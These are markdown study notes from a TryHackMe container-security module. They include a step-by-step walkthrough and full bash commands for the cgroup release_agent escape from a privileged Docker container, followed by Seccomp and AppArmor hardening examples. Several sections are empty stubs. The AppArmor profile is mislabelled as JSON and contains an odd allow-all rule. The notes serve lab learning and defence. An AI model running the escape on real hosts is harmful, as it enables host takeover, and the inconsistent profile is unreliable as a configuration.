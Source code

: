 ```yaml
---
icon: whale
description: Notes from the 'Container Security' module of TryHackMe
---
```


# Container Security

{% embed url="https://tryhackme.com/module/container-security" %}

## Container Vulnerabilities

### Privileged Containers

Docker containers can be run in two modes -

* User mode - interacts with the Host Operating System through Docker Engine
* Privileged - interacts directly with the Host OS

If a container is running with privileged access to the OS, commands can effectively be executed as root on the host. You can view capabilities of the container by running `capsh --print`.

Given below is an exploit on a privileged container using the `mount` syscall -

{% embed url="https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/" %}
The blog explaining the exploit in detail
{% endembed %}

Steps involved in the exploit -

1.  Create a group to use the Linux kernel to write and execute the exploit.

    The kernel uses `cgroups` to manage processes on the OS

    Since cgroups can be managed as root on the host, it can be mounted to `/tmp/cgrp` on the container
2. For the exploit to execute, we have to tell the kernel to run the code. Adding `1` to `/tmp/cgrp/x/notify_on_release` tells the kernel to execute something once the "cgroup" finishes
3. Find out where the container's files are stored on the host and store it as a variable.
4. Print the location of the exploit on the host system into `release_agent` so that the exploit will be executed by "cgroup" once it is released.
5. Turn the exploit into a shell on the host.
6. Execute a command, `cat /home/user1/flag.txt > $host_path/flag.txt`, to print the contents of `flag.txt` into a file on the container.
7. Make the exploit executable.
8. Create a process to store that into `/tmp/cgrp/x/cgroup.procs` so that once the process is released, the contents will be executed.

<details>

<summary>Commands to execute</summary>

{% code overflow="wrap" lineNumbers="true" %}
```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/user1/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
{% endcode %}

</details>

### Escaping via Exposed Docker Daemon

When inter

### Remote Code Execution via Exposed Docker Daemon



### Abusing Namespaces



***

## Container Hardening

### Protecting the Docker Daemon



### Implementing Control Groups



### Preventing "Over-Privileged" Containers



### Seccomp and AppArmor

{% tabs %}
{% tab title="Seccomp" %}
It is an important security feature of Linux that restricts the actions that a program can do. It allows the user to create and enforce a list of rules of what actions (system calls) that application can make. For example, it can allow the application to make a system call to read a file but not allow it to make a system call to open a network connection. This reduces an attacker's ability to execute malicious commands whilst maintaining the application's functionality.

An example Seccomp profile for a web server that allows for files to be read and written to but does not allow for execution (execve, execveat).-

{% code title="profile.json" %}
```json
{
  "defaultAction": "SCMP_ACT_ALLOW",
  "architectures": [
    "SCMP_ARCH_X86_64",
    "SCMP_ARCH_X86",
    "SCMP_ARCH_X32"
  ],
  "syscalls": [
    { "names": [ "read", "write", "exit", "exit_group", "open", "close", "stat", "fstat", "lstat", "poll", "getdents", "munmap", "mprotect", "brk", "arch_prctl", "set_tid_address", "set_robust_list" ], "action": "SCMP_ACT_ALLOW" },
    { "names": [ "execve", "execveat" ], "action": "SCMP_ACT_ERRNO" }
  ]
}
```
{% endcode %}

Apply a profile to a container -

```bash
docker run --rm -it --security-opt seccomp=/path/to/profile.json mycontainer
```

&#x20;Resources -

{% embed url="https://man7.org/linux/man-pages/man2/seccomp.2.html" %}

{% embed url="https://docs.docker.com/engine/security/seccomp/" %}
{% endtab %}

{% tab title="AppArmor" %}
It is a similar security feature as Seccomp in Linux. It works differently, however, as it is not included in the application but in the OS. It is a Mandatory Access Control (MAC) system that determines the actions a process can execute based on a set of rules at the OS level.

Given below is a profile that makes sure that a container has the following capabilities:

* It can read files located in `/var/www/`, `/etc/apache2/mime.types` and `/run/apache2`.
* It can read and write to `/var/log/apache2`.
* It can bind to a TCP socket for port 80 but not other ports or protocols such as UDP.
* It cannot read from directories such as `/bin`, `/lib`, `/usr`.

{% code title="profile.json" %}
```
/usr/sbin/httpd {

  capability setgid,
  capability setuid,

  /var/www/** r,
  /var/log/apache2/** rw,
  /etc/apache2/mime.types r,

  /run/apache2/apache2.pid rw,
  /run/apache2/*.sock rw,

  # Network access
  network tcp,

  # System logging
  /dev/log w,

  # Allow CGI execution
  /usr/bin/perl ix,

  # Deny access to everything else
  /** ix,
  deny /bin/**,
  deny /lib/**,
  deny /usr/**,
  deny /sbin/**
}
```
{% endcode %}

To apply an AppArmor profile to a container, we need to -

1. Ensure that it is installed on the system using the command - `sudo aa-status.`
2. Create a profile.
3. Load the profile into AppArmor.
4. Run the container with the created profile.

Import the profile into AppArmor -

```bash
sudo apparmor_parser -r -W /path/to/profile.json
```

Apply it to the container at runtime -

```bash
docker run --rm -it --security-opt apparmor=/path/to/profile.json mycontainer
```

Resources -

{% embed url="https://gitlab.com/apparmor/apparmor/-/wikis/Documentation" %}

{% embed url="https://docs.docker.com/engine/security/apparmor/" %}
{% endtab %}
{% endtabs %}

### Reviewing Docker Images



### Compliance and Benchmarking

